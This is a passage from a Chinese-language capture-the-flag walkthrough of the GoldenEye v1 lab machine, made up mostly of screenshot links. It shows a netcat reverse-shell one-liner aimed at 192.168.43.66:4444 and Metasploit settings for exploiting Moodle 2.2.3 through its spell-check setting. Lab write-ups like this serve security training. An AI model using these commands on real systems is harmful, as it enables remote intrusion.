 ```bash
sh -c '(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.66 4444 >/tmp/f)'
```

![image-20200628215040614]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628215040614.png)

换了很多payload以及端口，尝试多次仍然不行。

换一个思路

![image-20200628223352949]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628223352949.png)

版本号moodle 2.2.3

msf

![image-20200628223946253]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628223946253.png)

```bash
set PASSWORD xWinter1995x!
set rhosts 192.168.43.239
set VHOST severnaya-station.com
set TARGETURI /gnocertdir
set lhost 192.168.43.66
set lport 4444
```

![image-20200628224922190]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628224922190.png)

也失败了。

![image-20200628225118518]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628225118518.png)

嗯嗯嗯嗯。。。

检查平台设置，一定是一些设置阻止了正常执行，手动执行时返回是正常检查了文本，那么可能payload根本就没被调用

![image-20200628230914585]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628230914585.png)

终于在设置中找到下面的拼写检查引擎设置，网站默认使用的是google spell，而并不是我们之前手动尝试的pspellshell，这就是为什么无论手动还是msf都无法正确执行的原因。![image-20200628231135107]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628231135107.png)

修改成我们需要的选项

![image-20200628231356871]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628231356871.png)

修改过之后无论手动还是msf都可以正确执行了。

![image-20200628234706855]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628234706855.png)

![image-20200628232542844]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628232542844.png)

![image-20200628232916256]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628232916256.png)

![image-20200628233126169]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628233126169.png)
